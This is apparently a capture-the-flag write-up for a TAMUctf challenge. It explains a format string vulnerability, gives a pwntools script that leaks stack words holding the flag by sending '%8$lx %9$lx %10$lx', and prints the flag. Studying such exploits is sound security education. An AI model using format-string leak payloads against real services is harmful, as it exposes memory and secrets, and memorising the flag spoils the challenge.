

Decompiled main:



The flag is read and saved on the stack. 
An input is taken and printed. There is a format string vulnerability.
We can print the various blocks of the stack containing the flag

Exploit:
```python
from pwn import *

p = remote('challenges.tamuctf.com', 4251, level='error')

payload = (("%8$lx %9$lx %10$lx").encode())

p.recvuntil(')')
p.sendline(payload)
p.recvline()
flag_chunks = p.recvline().strip().split(b' ')
flag = ''
for chunk in flag_chunks:
    flag += binascii.unhexlify(chunk).decode()[::-1]
print(flag)
```

# FLAG
```
gigem{3asy_f0rmat_vuln1}
```
